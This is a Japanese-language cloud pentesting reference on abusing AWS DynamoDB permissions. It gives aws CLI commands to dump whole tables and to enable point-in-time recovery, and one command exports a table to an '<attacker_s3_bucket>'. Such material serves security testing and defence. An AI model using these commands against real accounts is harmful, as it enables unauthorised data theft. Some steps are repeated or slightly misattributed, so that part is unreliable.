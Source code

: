 ### `dynamodb:Scan`

この権限を使用すると、テーブル全体を簡単にダンプすることができます。
```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```
**潜在的な影響:** テーブル内の機密情報を特定することによる間接的な特権昇格

### `dynamodb:PartiQLSelect`

この権限を使用すると、テーブル全体を簡単にダンプすることができます。
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
この権限は、`batch-execute-statement` の実行も許可します。
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
しかし、値を指定して主キーを特定する必要があるため、それほど有用ではありません。

**潜在的な影響:** テーブル内の機密情報を特定することによる間接的な特権昇格

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

この権限により、攻撃者は自分が選んだS3バケットにテーブル全体を**エクスポート**することができます。
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
次のコマンドを使用して、テーブルがポイントインタイムリカバリが有効になっているかどうかを確認できます（訳注：コマンドの翻訳はしません）:

```plaintext
aws dynamodb describe-continuous-backups --table-name <table_name>
```

ポイントインタイムリカバリが有効になっている場合、テーブルのデータを特定の時点に戻すことができます。以下のコマンドを使用して、指定した時点にテーブルを復元できます（訳注：コマンドの翻訳はしません）:

```plaintext
aws dynamodb restore-table-to-point-in-time --source-table-name <table_name> --target-table-name <restored_table_name> --use-latest-restorable-time
```

このコマンドを実行すると、指定した時点までのデータが復元された新しいテーブルが作成されます。
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
もし有効にされていない場合、**有効にする必要があります**。そのためには、**`dynamodb:ExportTableToPointInTime`** の権限が必要です。
```bash
aws dynamodb update-continuous-backups \
--table-name <value> \
--point-in-time-recovery-specification PointInTimeRecoveryEnabled=true
```
**潜在的な影響:** テーブル内の機密情報を特定することによる間接的な特権昇格
